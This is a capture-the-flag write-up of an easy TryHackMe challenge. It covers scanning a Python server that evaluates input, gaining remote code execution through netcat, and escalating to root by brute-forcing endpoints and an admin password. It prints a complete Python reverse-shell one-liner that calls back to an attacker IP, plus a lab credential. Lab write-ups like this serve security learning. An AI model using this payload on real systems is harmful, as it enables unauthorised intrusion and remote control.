 # Fun
.Solving an easy challenge on tryhackme.com

![test](images/1.png)
![test](images/2.png)

**The challenge is to hack into a python server that when receiving a GET request from a client runs some of the content of that request as an input for the python interpreter running in the server.**

So the first step is to deploy the challenge machine in the tryhackme platform, we get the challenge machine ip address as 10.201.65.80, this is an ip from a private network, so we connect to the network of the tryhackme platform using the command 
`sudo openvpn Downloads/user.ovpn` after we ping the target so we can see that we have access to the target
`ping 10.201.65.80`

![test](images/3.png)

After seeing that we are in fact into the network  we run nmap to scan the target with the `-sV` flag to enumerate the version of the sotware running in the ports of the server. `nmap -sV 10.201.65.80` 

![test](images/4.png)

Nmap return that the target server is running ssh in port 22 and a http server in port 8000. As in the premises of the challenge is very straight forward where to look, i'm not gonna try to bruteforce the ssh and focus in the server as the foothold point.

We see that the http server is using the simplehttp python. the command to start running this kind of server in your machine is a derivation of `python3 -m http.server PORT_TO_RUN` and the fingerprint string of the responde of the http is returning error about an object not defined in the request. When access the http service in port 8000 in a browser we receive a html file saying *Try a more basic connection!*

![test](images/5.png)

So we connect using netcat a swiss army knife to handling basic network connections, we use the command
`nc 10.201.65.80 8000` (i lost the screenshot but when you connect via netcat all you type in the terminal is run by a python interpreter, so if i typed `hello` it would return `NameError: name 'hello' is not defined.`
and when typed `print("hello")` we receive *hello* as response. **Then we can conclude that this is the remote code execution flaw of the server, we can exploit this to execute arbitrary code into the server machine**.

We use a reverse shell cheat sheet online to look an one line python code to make the server spawn a shell and connects to our machine (REVERSE SHELL) writing `import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("OUR_MACHINE_IP",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")` into the netcat connection with the target as is running a get request as python code. This code will make the server connects to our machine and connect an interactive shell of the server into our machine by port 1337, so we set our machine to listen to connections in port 1337 by using `nc -lvnp 1337` (-l is listen, -v verbone, -p port and -n no dns resolution).

![text](images/6.png)

In the nc -lvnp 1337 we receive a connection from 10.201.92.41 (our target address) and a **$** which means a input for shell, when we run `id` into this shell we received in port 1337 the output is **www-data** which is the user responsible for the http server, so we are inside the target server and running code as www-date user, which is a very low priveleged user in the target system, the next step is to realize a **privilege escalation** to achieve root into the target system, owning the target. So we have access to the target server but with the user www-data (It is not showed by the photos, but in my machine i runned a simple http server by `python3 -m http.server PORT` to connect via the victim's machine and get the linpeas.sh program inside the target server, linpeash is a program to find privilege escalation and it returned us the existence of `/opt/dev/.git`)

![text](images/7.png)
![text](images/b.png)
With the user think and the password __TH1NKINGPirate$__ we can connect to the target via ssh using the think user
![text](images/c.png)
![text](images/d.png)
![text](images/e.png)

Exploring the .git folder we find that the last commit and we can see a little bit of the python backend code running in the server

![text](images/77].png)
![text](images/code.png)

In the python code we see that if the data == 'some_endpoint': then a function get_this_endpoint will be called. So we need to bruteforce to find the endpoint, we achieve this creating a .py script that bruteforce for endpoints after connecting to the server that is
![text](images/11.png)
After this we discover the admin endpoint evoke a password input and we need to bruteforce the password by the same method and we are in with a root shell
![text](images/12.png)
![text](images/13.png)
![text](images/14.png)
